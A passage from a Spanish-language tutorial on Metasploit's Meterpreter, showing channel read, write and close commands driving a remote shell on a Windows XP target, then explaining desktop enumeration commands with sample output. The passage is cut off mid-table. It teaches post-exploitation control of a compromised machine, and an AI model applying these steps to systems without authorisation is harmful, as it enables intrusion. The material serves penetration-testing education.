 Otra forma de interactuar con un canal, es utilizando los comandos read y write, que permiten enviar flujos de datos a un canal definido de una forma sencilla:

meterpreter > write 12

Enter data followed by a ‘.’ on an empty line:

echo “Hola!”

.

[\*] Wrote 13 bytes to channel 12.

meterpreter > read 12

Read 116 bytes from 12:

Microsoft Windows XP [Version 5.1.2600]

(C) Copyright 1985-2001 Microsoft Corp.

c:\>echo “Hola!”

“Hola!”

Finalmente con el comando close, se cierra algún canal que se encuentre abierto

```
meterpreter > close 12

[*] Closed channel 12.

meterpreter > channel -l
```

Id Class Type

– —– —-

13 3 stdapi_process

getdesktop <Stdapi, User Interface Commands>, enumdesktops <Stdapi User Interface Commands> setdesktop<Stdapi User Interface Commands>
Estos comandos permiten obtener el desktop del usuario actual, establecerlo y enumerar las diferentes interfaces habilitadas en la maquina objetivo, cada uno de los desktop están asociados a una sesión (normalmente la sesión, 0 se relaciona con el usuario actualmente conectado y las demás con usuarios remotos) una estación (que normalmente es la Windows Station) y un nombre de Desktop, este nombre identifica la interfaz que se enseña al usuario, por ejemplo tenemos una para el inicio de sesión, otra para el escritorio y otra para logoff.

meterpreter > enumdesktops

Enumerating all accessible desktops

Desktops

========

Session Station Name

——- ——- —-
